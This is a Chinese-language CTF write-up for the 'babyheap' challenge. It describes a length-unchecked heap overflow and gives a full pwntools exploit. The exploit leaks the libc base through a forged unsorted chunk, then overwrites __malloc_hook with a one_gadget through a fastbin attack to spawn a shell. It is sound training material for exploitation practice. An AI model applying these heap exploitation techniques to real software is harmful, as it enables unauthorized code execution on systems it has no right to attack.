








# ctf_wiki: babyheap

## 功能



常规菜单题。

## 漏洞

edit 功能的长度没有限制，存在堆溢出。



## 利用思路

由于保护全开，大概的思路是先通过溢出修改 fastbin 的 fd，使其指向一个 unsorted bin，然后 free 掉 unsorted bin ，从而 leak 出 libc 地址。

然后通过 fastbin attack 修改 malloc hook 为 one gadget 即可 getshell。

leak 流程如下：

- 先申请 6 个 chunk



- free 掉 2 号和 1 号



- 从 0 号 chunk 堆溢出，改掉 1 号 bin 的 fd，使其指向 4 号 chunk



- 同时从 3 号 chunk 堆溢出，改掉 4 号 unsorted chunk 的 size 为 0x21



- 再 malloc 两次 0x10 ，即可拿到 4 号 chunk，对应的索引为 2。此时程序逻辑中的索引 2 指向的实际上是 heap 上的 4 号 chunk



- free 掉 4 号 chunk，但是索引 2 仍然指向了 free 之后的 4 号 unsorted bin



leak 成功。


- leak

```python
add(0x10) # 0 ，溢出控制 1 号 chunk 的 fd，指向 unsorted bin，配合 show 即可 leak libc base
add(0x10) # 1 free 2 之后 free 1 进 fastbin，fd 指向 2
add(0x10) # 2 先被 free 进 fast bin，fd 指向 NULL
add(0x10) # 3 ，用来控制 0x80 chunk 的 size 位
add(0x80) # 4 unsorted chunk
add(0x20) # 防止 free unsorted chunk 时和 top chunk 合并
# leak

free(2)
free(1)

payload = flat([
    0,0,
    0,0x21,
    p8(0x80)
    ])
edit(0,len(payload),payload)

payload = flat([
    "a"*0x10,
    0,0x21
    ])
edit(3,len(payload),payload)

add(0x10) # 1
add(0x10) # 2

payload = flat([
    "a"*0x10,
    0,0x91
    ])
edit(3,len(payload),payload)
free(4) # unsorted bin
show(2)
p.recvuntil("Content: \n")
offset = 0x3c4b78
libc_base = u64(p.recv(6).ljust(8,"\0")) - offset
```

- fastbin attack

```python
add(0x60) # 5
add(0x60) # 6
add(0x60) # 7
add(0x60) # 8
add(0x60) # 9

free(8)
free(7)
payload = flat([
    "a"*0x60,0,
    0x71,target
    ])
edit(6,len(payload),payload)

add(0x60)
add(0x60)

edit(8,0x13+8, "\x00"*3+p64(0x7ffff7a92ea0) + p64(0x7ffff7a92a70) + p64(one_addr))
add(0x10) # getshell
```

## exp

```python
#coding:utf8
from pwn import *
# from LibcSearcher import *
context(log_level='debug',terminal=["tmux","splitw","-h"])
binary = "./babyheap"
libc_binary = "/lib/x86_64-linux-gnu/libc.so.6"

p = process(argv=[binary])
# p = remote("",)

elf = ELF(binary)
libc = ELF(libc_binary)

context.arch = "amd64"

def opt(idx):
    p.sendlineafter("Command: ",str(idx))

def add(length):
    opt(1)
    p.sendlineafter("Size: ",str(length))

def free(idx):
    opt(3)
    p.sendlineafter("Index: ",str(idx))

def edit(idx,length,content):
    opt(2)
    p.sendlineafter("Index: ",str(idx))
    p.sendlineafter("Size: ",str(length))
    p.sendafter("Content: ",str(content))

def show(idx):
    opt(4)
    p.sendlineafter("Index: ",str(idx))

# leak

add(0x10) # 0
add(0x10) # 1
add(0x10) # 2
add(0x10) # 3
add(0x80) # 4
add(0x20) # 5

free(2)
free(1)

payload = flat([
    0,0,
    0,0x21,
    p8(0x80)
    ])
edit(0,len(payload),payload)

payload = flat([
    "a"*0x10,
    0,0x21
    ])
edit(3,len(payload),payload)

add(0x10) # 1
add(0x10) # 2

payload = flat([
    "a"*0x10,
    0,0x91
    ])
edit(3,len(payload),payload)
free(4) # unsorted bin
show(2)
p.recvuntil("Content: \n")
offset = 0x3c4b78
libc_base = u64(p.recv(6).ljust(8,"\0")) - offset

one_offset = 0x4527a
one_addr = libc_base + one_offset

target = libc_base + libc.sym["__malloc_hook"] - 0x23

add(0x60) # 5
add(0x60) # 6
add(0x60) # 7
add(0x60) # 8
add(0x60) # 9

free(8)
free(7)
payload = flat([
    "a"*0x60,0,
    0x71,target
    ])
edit(6,len(payload),payload)

add(0x60)
add(0x60)

edit(8,0x13+8, "\x00"*3+p64(0x7ffff7a92ea0) + p64(0x7ffff7a92a70) + p64(one_addr))
add(0x10) # getshell
gdb.attach(p)

p.interactive()
```
